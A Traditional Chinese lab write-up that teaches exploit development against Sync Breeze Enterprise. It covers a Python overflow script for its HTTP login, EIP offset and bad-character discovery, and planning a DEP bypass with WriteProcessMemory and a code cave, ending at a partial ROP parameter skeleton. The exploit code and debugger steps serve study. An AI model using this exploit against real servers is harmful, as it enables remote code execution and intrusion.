## 🦉0x000 前言
這是我開始學習 ROP 的第一個練習題目，也可能是所有我 release 的 ROP WriteUp 中最完整的一個，我花了 17 個小時從零開始學習 ROP 並疊出來，我相信對於所有想要練習 ROP 的人來說，這份 WriteUp 能夠讓你知道從 overflow 開始到取得 reverse shell 的漫長路途是如何進行的。但先打個預防針，我不是專業的 pwner，我也只有基本的 pwn 知識，如果有一些敘述你認為不那麼正確，我仍然建議你詢問 LLM 或者去看更專業的教材。

另外，由於在這篇文章中會交替使用十六進制與十進制，如果是十六進制會使用 `0x00` 來表示，十進制則是簡單的 `00`。為避免混淆，因此事先說明。

## 🦉0x100 控制 EIP
要開始練習 ROP 前，需要有一個能夠觸發 overflow 的 payload template。我相信有些 pwner 能夠從零開始構建出 payload，但對我來說，最主要的目的是練習 ROP，也因此我在網路上找了一個我看起來順眼的 template 就直接使用了。

而你要做的第一步就是跟目標程式來一場猜數字的遊戲，猜到能夠讓目標程式 crash 的數字。這個過程取決於你的運氣，但總能猜到的。對我而言猜數字並不困難，比較麻煩的是這隻目標程式每次 crash 後都需要我自己去重啟 service 再 attach windbg 上去。老實說這真的很頭痛，但總而言之，我猜出了這個能讓目標程式 crash 的數字是 `800`。
```python
#!/usr/bin/env python3
import socket, sys
from struct import pack

def exploit():
    i = 800

    try:
        server = sys.argv[1]
        port = 80

        buffer = b'A' * i
        
        payload = buffer

        content = b"username=" + payload + b"&password=A"
        buffer = b"POST /login HTTP/1.1\r\n"
        buffer += b"Host: " + server.encode() + b"\r\n"
        buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
        buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
        buffer += b"\r\n"
        buffer += content

        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((server, port))
            s.send(buffer)
            response = s.recv(1024)
            s.close()
            print(f"[*] Malicious payload sent, received response: {response}")
    except Exception as e:
        print(e)

if __name__ == '__main__':
    exploit()
```

 在找到會觸發 overflow 的數字後，我們要找到會覆蓋到 `eip` 的確切位置。具體來說 ROP 是由於 overflow 覆蓋了 return address，使得 `ret` 過後， stack 上的 value 被 pop 到 `eip`。當我們疊 ROP 時，事實上就是在控制 `ret` 後被 pop 到 `eip` 的 value 。 而 `eip` 代表下一個要執行的指令 address，我們稱為 gadget。 在我們 overflow 後，我們便能往 stack 去疊我們想要的 gadget。只要成功讓第一個 gadget 進入了 `eip`，那之後在每一個 gadget 結束後的 `ret` 就會自動幫我們把下一個 gadget 的 address pop 到 `eip` 上。

  因此，為了找到最初能覆蓋 `eip` 的 overflow 位置，我們需要快速的定位到剛好能夠導致 overflow 的長度。在前面的猜密碼中，我們已經知道了往 buffer 寫入 `800` 個字元會導致 overflow。我們能夠使用 kali 產生長度為 `800` 個字元的不重複字串。
```shell
msf-pattern_create -l 800
```



接著我們更改 payload，由於 `800` 個字元會導致 overflow，當我們使用 windbg attach 目標程式後執行 payload，windbg 便會因為目標程式的 crash 攔截到暫存器的資訊。
```python
# buffer = b'A' * i
pattern = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba'
buffer = pattern
```

在 windbg 上執行 g 將目標程式跑起來。
```shell
g
```

透過 windbg 的畫面我們可以看到 overflow 已經成功，我們觸發了 access violation。這是由於我們的 overflow 將 `eip` 蓋過去，使得程式要執行的下一個指令，也就是 `eip` 被我們控制，然而我們的 `eip` 並不是一個有效的 address，是我們剛剛用 kali 產生的不重複字串，使得訪問該 address 時發生了錯誤，所以才觸發了 access violation。可以觀察到此時的 `eip` 在訪問 `0x42306142` 時發生了 access violation 。


接著我們同樣能夠透過 kali 將 `eip` 的 value 計算成確切的 offset。我們確定了前面覆蓋到 `eip` 的 `0x42306142` 是在 offset 為 `780` 的地方。這表示在 `eip` 被覆蓋前，我們需要 `780` 個字元來填充才會造成 overflow。
```shell
msf-pattern_offset -l 800 -q 42306142
```



確定好正確的 value 後我們就能更改 payload，首先 `780` 個 `A` 用來填充，接著 `4` 個 `B` 用來覆蓋 eip。修改完 payload 後我們再次重啟 service 並 attach windbg 來確定 offset 沒有找錯。可以觀察到，crash 後的 `eip` 被我們覆蓋成了 `0x42424242`，也就是 ascii 的 `4` 個 `B`。同樣由於 `0x42424242` 並不是一個有效的 address，訪問該 address 時同樣發生了錯誤，所以也觸發了 access violation。
```python
buffer = b'A' * 780
eip = b'B' * 4
payload = buffer + eip
```



---
## 🦉0x200 確認 badchar
在構造 ROP 的過程當然不可能讓你一路順風，badchar 就是我們需要面對的第一道關卡。字元通常用 char 來儲存與表示。而大小是一個 byte。也就是說能使用的字元會從 `0x00` ~ `0xff`。在這些字元中有許多具有特殊意義的字元。舉幾個比較常見的例子 :

| char   | 意義   |
| ------ | ---- |
| `0x00` | 字串終止 |
| `0x0a` | 換行   |
| `0x20` | 空格   |

可想而知這些東西放進去你的 payload 會發生什麼事情。舉個例子，放入 `0x00`，直接把你的 payload 截斷了，後面的跑都不用跑。其他的也是相同的道理。令人驚訝的是 badchar 雖然有少部分是幾乎所有程式都會中獎的，例如 `0x00`，不同的程式會有不同的 badchar 集合。每一次練習不同的題目都是在開驚喜包。為了不讓我們的 payload 被這些 badchar 破壞，我們只能在這個階段把它們全抓出來。

下面是我用來篩選 badchar 的程式碼，基本上可以直接拿去用。我們修改 payload 在 `eip` 後面加上這些所有列出的 badchar 候補。當我們再次執行 windbg 後，我們就能在 memory 中看到這些 badchar 候補們發生了什麼。
```python
badchars = (
        b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
        b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
        b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
        b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
        b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
        b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
        b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
        
        
payload = buffer + eip + badchars
```

觸發 overflow 後可以在 windbg 上使用以下指令來查看 `esp`，可以看到在我們把 `esp` 覆蓋成 `0x42424242` 後，後面原本應該要是從 `0x01` ~ `0xff` 的所有字元，結果在 `0x09` 後面不是 `0x0a`，變成了 `0x00`。這代表 `0x0a` 是 badchar。我們需要從 badchars 中把 `0x0a` 移除，然後重新再跑一次。重覆這個過程直到找出所有 badchar。
```shell
db esp-8
```

發現 `0x0a` 是 badchar，移除。


發現 `0x0d` 是 badchar，移除。


發現 `0x25` 是 badchar，移除。


發現 `0x26` 是 badchar，移除。


我沒有全部都截圖，但理論上當你重覆這個過程到最後，你應該能夠取得以下的 badchar 集合。記得我們前面說過有一些 badchar 是幾乎所有程式都會中獎的，沒錯，就是 `0x00`，你可以直接放進去。現在你應該成功找出了所有的 badchar。這些就是未來在疊 ROP 或是寫 shellcode 的時候被禁用的字元。不過當然有方法繞過，但這個我們暫且先不談。
```shell
00,0a,0d,25,26,2b,3d
```
---
## 🦉0x300 開啟 DEP
 在練習 ROP 時我們可以選擇在所有防護都不開啟的情況下疊 ROP，或者是給自己上點難度。DEP (Data Execution Prevention) 就是一種難度。開啟了 DEP 就會讓 data 區域變為不可執行 (NX, No-Execute) 的區域。基本上沒開 DEP 我們只要把 `eip` 指到 shell code 的 address 就好，畢竟沒開就表示 stack 上能夠執行程式。但生活太枯燥，需要一點刺激，我們這裡直接打開。
```shell
Windows Security
App & browser control
Exploit protection settings
Program settings
Add program to customize
Choose exact file path
go to C:\Program Files\Sync Breeze Enterprise\bin\
choose syncbrs.目標程式
```

我使用的是英文版本的 windows 10，總之照著 GUI 點一點，最後你的畫面應該會長這樣。這裡能夠開啟 DEP。其他的我是都關掉啦，你知道的，我受不了太大的刺激。


---
## 🦉0x400 Bypass DEP

既然我們對自己這麼狠，把 DEP 打開了，那我們只好 bypass 它。bypass DEP 不只有一種方法，但我選擇使用 WriteProcessMemory (WPM)。具體的邏輯是這樣的，由於開啟了 DEP，使得我們沒辦法在 stack 上執行我們的 shell code。而 WPM 這個 API 能夠對 memory 進行寫入操作，如果我們能夠把 shell code 往具有可執行權限的 memory 寫，接著再讓 `eip` 指向寫入 shell code 的 memory address，我們就能順理成章的執行 shell code。

理想很美好，執行起來就是另外一回事了，ROP 初心者頭破血流。但在一切開始之前，我們需要先來了解怎麼呼叫 WPM。你可以在 Microsoft 的官方文件上找到詳細的說明，或者去問 LLM。但如果你非常懶，我也提供了簡單的說明。
```c
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,  // 指定當前 process, -1
  [in]  LPVOID  lpBaseAddress, // Code Cave 的 address
  [in]  LPCVOID lpBuffer, // shell code 在 stack 上的 address，WPM 會從這裡把 shell code 複製到 Code Cave
  [in]  SIZE_T  nSize, // 大於或等於 shell code 大小
  [out] SIZE_T  *lpNumberOfBytesWritten // 垃圾處理
);
```

### 🐣0x410 尋找 Code Cave
我們前面提到 WPM 能夠把 shell code 往具有可執行權限的 memory 寫。而被我們用來放置 shell code 的具有可執行權限的 memory 就叫做 Code Cave。為了尋找 Code Cave，我們需要用到 windbg 的一個 extension，[narly](https://code.google.com/archive/p/narly/)。這個 extension 能夠幫我們找到目標程式使用的 dll ，還有這些 dll 上防護的相關資訊。當然，據說它還能找 gadget，但反正我是從來沒用過。

首先在 windbg 執行目標程式後，我們使用以下指令載入並執行 narly。在輸出的結果，我們需要關注 `/SafeSEH OFF` 的 dll，同時 ASLR 必須關閉。只有符合這些條件的 dll 才能用來疊 ROP。至於 SEH 怎麼防止 ROP 的，勞煩 LLM 幫我解釋。
```shell
.load narly
!nmod
```



在這一題中，`/SafeSEH OFF` 的 dll 一共有三個，其實選哪一個都沒有差別，但可能會遇到一點雷。目標程式載入 dll 的順序不一定每次都是相同的。可能你這一次執行看到的順序是這樣，但下一次就不是了。如果你好奇我為什麼知道，問就是慘痛的經驗。所以我推薦在選擇 dll 時多執行幾次目標程式來觀察。確保你選擇用來取得 gadget 的 dll 出現的 address 穩定。這次我選擇使用 `libspp` 來取得 gadget 。
```shell
libpal.dll
libspp.dll
libsync.dll
```

接下來介紹的是土法煉鋼的找 Code Cave 辦法。相信我，有更聰明的方法。但初心者先學點土法煉鋼沒什麼問題吧。第一步，我們要先找 PE Header 的 value ，通常會在 `base address + 0x3c` 的地方。
```
dd libspp+3c
```



第二步，從 `PE Header value + 0x2C` 找程式碼區段的相對 address，得到 `0x1000`。表示程式碼區段在 `base address + 0x1000` 的位置。之所以要找程式碼區段是因為我們要用 WPM 把 shell code 複製到 Code Cave，而程式碼區段是最高機率會具有執行權限的 memory 區段。
```
dd libspp + f8 + 2c L1
```


接著用 `libspp` 的 base address 去計算程式碼區段的相對位置，我們就能得到程式碼區段的起始 address。
```
? libspp + 1000
```


夜路走多了總會遇到鬼，即使是程式碼區段也不一定能執行程式碼吧哈哈。為了不在之後哭出來，我們需要使用以下指令再次確定程式碼區段具有執行權限。我們也能看到程式碼區段的 End Address 到 `0x10168000`。這表示從 `0x10001000` ~ `0x10168000` 都是我們能尋找 Code Cave 的範圍。
```shell
!address 10001000
```



之後我們就能開始尋找 Code Cave 了。Code Cave 的 memory 需要全都是 `0x00`，最理想的情況下是夠大，最好有個 `0x400` 或是更多的大小，但其實沒有固定的標準，只要你的 shell code 放得下，不管多少都可以。這裡我從程式碼區段的結尾 `0x10168000` 往回開始找，當然你也可以從開頭 `0x10001000` 開始找，只要能找到一段都是 `0x00` 的空間就好。
```
dd 10168000-100
dd 10168000-200
dd 10168000-300
dd 10168000-400
dd 10168000-500
dd 10168000-600
```



我們找到了 `0x600` 的 Code Cave。透過計算 address，我們得出了 `0x10167a00` 這個 address 開始的 `0x600` 是我們的 Code Cave。我們會需要將這個 address 寫入我們的 payload 中。還記得之前我們有找過 badchar 嗎 ? `0x10167a00` 的 `0x00` 是其中一個 badchar，我們如果直接將這個 address 寫入 payload，我們的 payload 將會被破壞。為了避開 `0x00` 我們可以稍微減小我們的 Code Cave 大小，例如我在這裡減少了 `0x04` 的 Code Cave 空間，將 `0x10167a00` 開始的 `0x600` 空間變成 `0x5fc`，同時把 address 加上 `4`。如此一來，從 `0x10167a04` 開始共 `0x5fc` 的空間就是我的 Code Cave 了。



因此，我們就能將目前已知的參數放入 WPM 當中。首先 hProcess 需要放入 `-1`，因此我們放入了 `0xffffffff` (補數表示)。接著我們確認了 Code Cave，也就是用來放 shell code 的具有可執行權限的 memory address，將其填入 lpBaseAddress。此外，我們也計算出了 Code Cave 的大小是 `0x5fc`，表示我們的 shell code 最多可以使用到 `0x5fc` 的長度，所以我們也確認了 nSize 的大小。 現在，我們已經完成了 WPM 需要的五個參數中的三個了。
```
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,       // 0xffffffff
  [in]  LPVOID  lpBaseAddress,  // 0x10167a04
  [in]  LPCVOID lpBuffer,       // 
  [in]  SIZE_T  nSize,          // 0x600 - 0x4
  [out] SIZE_T  *lpNumberOfBytesWritten  //
);
```
---

### 🐣0x420 尋找 lpNumberOfBytesWritten

 接下來我們要來處理 WPM 的 lpNumberOfBytesWritten，這個參數是用來接收實際寫入 byte 長度的。但我們在 ROP 疊完後彈回來 reverse shell 後誰還管這個。話雖如此，雖然用不到這個 value ，但我們仍然要找地方讓 WPM 能夠寫 value 回來，確保 WPM 能夠順利執行。理論上可以選擇任何一個具有可寫入權限 address，但通常為了避免不小心跟我們的 payload 有所衝突或者一些奇怪的意外，將這個 value 寫入資料區段會是最保守的。

我們可以使用以下 windbg 指令找到資料區段，還記得我們前面土法煉鋼找程式碼區段嗎 ? 對的，只要用這個指令也可以輕鬆找到程式碼區段。我們觀察輸出結果，可以發現從 `0x1D5000` 開始共 `0x37040` 大小的範圍都是資料區段。
```shell
!dh -a libspp
```



由於 lpNumberOfBytesWritten 只需要 1 個 byte 的空間，也就是我們只需要在偌大的資料區段，找到一個 `0x00000000` 就好。當然，如果你很叛逆，想要把 lpNumberOfBytesWritten 塞在資料區段以外的位置也沒問題，只要確定好該 address 具有可寫入權限，並且是 `0x00000000`，不管你想放在哪裡都沒問題。以下的 windbg 指令與先前尋找 Code Cave 類似，在找到可寫入的 address 後需要確認該 address 是否具有可寫入權限。同樣地，address 本身不能包含 badchar。
```shell
?libspp+1D5000+37040+4
dd 1020c044
!vprot 1020c044
```



現在我們已經把在正式疊 ROP 之前能夠確定的參數都找到了，接下來的參數就得等到真正開始疊 ROP 後再利用 ROP 一個一個補進去了。
```
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,       // 0xffffffff
  [in]  LPVOID  lpBaseAddress,  // 0x10167a04
  [in]  LPCVOID lpBuffer,       // 
  [in]  SIZE_T  nSize,          // 0x600 - 0x4
  [out] SIZE_T  *lpNumberOfBytesWritten // 0x1020c044
);
```
---
### 🐣0x430 尋找 WriteProcessMemory 在 IAT 的 address

進行到這裡，你應該會有個疑惑，我們準備了這麼多 WPM 的參數，那最重要的 WPM 本身呢 ? 總不可能我們 overflow 後 WPM 就從天上掉下來吧。你想的沒錯，WPM 本身得仰賴我們自己去尋找。這時候我們就需要說明什麼是 IAT (Import Address Table) 了。由於在調用外部 dll 中的函數時，這些 dll 通常會受到 ASLR (Address Space Layout Randomization) 的防護，ASLR 會使得每次載入 dll 時的 base address 隨機化，導致我們沒辦法把這些 dll 中任何 function 的 address 硬編碼在 payload 上。因為每次重啟 目標程式，這些 dll 的 base address 都會改變。這時候我們就需要透過 IAT 來取得這些外部函數的 address 了。

IAT 最主要的作用是儲存目標程式使用的外部函數實際 address。在目標程式加載時， IAT 會去解析目標程式需要用到的外部 dll 函數的實際 address，並將其填入。而 IAT 本身的 address 是不會改變的，因為我們前面在選擇 dll 時選擇了沒有 ASLR 的 dll 作為目標。也因此，我們需要透過 IAT 中紀錄 function 的 address 來找到 WPM 真正的 address。並且在 ROP 的最後讓 `eip` 指向這個 address，帶上我們疊好的參數去執行 WPM。

我們可以先用一段簡單的 python 程式碼來觀察如何呼叫 WPM。程式碼中有三個 Todo，這些是我們必須要在 ROP 執行過程中填充的。首先是 WriteProcessMemory 的 address，正如剛才所說，我們必須透過 IAT 來找到 WPM 正確的 address 以 bypass ASLR。再來是 lpBuffer，lpBuffer 會儲存 shell code 在 stack 上的 address。然而我們的 shell code address 會隨著 ROP 疊的數量而變動，並且我們也不能確保每次啟動程式時分配的 stack address 都是一樣的。也因此我們只能在疊 ROP 的過程中確定  shell code 在 stack 上的 address 後再填入。而 nSize 的原因就比較單純了，我們前面算出來的 Code Cave 可用空間是 `0x5fc`，要是我們直接把這個 value 硬編碼在 payload 上就會變成 `0x000005fc`，直接撞上 badchar。所以通常的做法是放入一個 `-0x5fc`，再想辦法用 gadget 轉回正數。話雖如此，但 lpBuffer 的要求是大於等於 shell code 大小，所以或許填入一個超級大的 value 也能正常運作嗎? 我沒有嘗試過，如果有人知道的話可以告訴我。

此外你可能還會注意到有一個 Return Address after WPM。由於在呼叫函數時事實上是跳轉到該函數所在的 address 執行該函數。但當函數執行完成後會需要回到原本的 address 繼續執行下去，也因此在呼叫函數時會將 return address 打包帶走，以方便執行完成後回到 return address。我在這裡盡可能使用簡單的方式解釋，如果想知道細部原理的可以自己再去研究。

總之，利用這個機制，我們可以將 WPM 的 return address 直接設定成 Code Cave 的 address。當 ROP 執行完成後，WPM 將 shell code 複製到 Code Cave 後，我們反手就讓 `eip` 往 Code Cave 指，去執行我們的 shell code。
```python
wpm =pack("<L",0x69696969)  # (Todo) WriteProcessMemory Address
wpm+=pack("<L",0x10167a04)  # Return Address after WPM
wpm+=pack("<L",0xFFFFFFFF)  # hProcess, -1
wpm+=pack("<L",0x10167a04)  # lpBaseAddress, Code Cave
wpm+=pack("<L",0x70707070)  # (Todo) lpBuffer
wpm+=pack("<L",0x71717171)  # (Todo) nSize
wpm+=pack("<L",0x1020c044)  # *lpNumberOfBytesWritten, .data
```

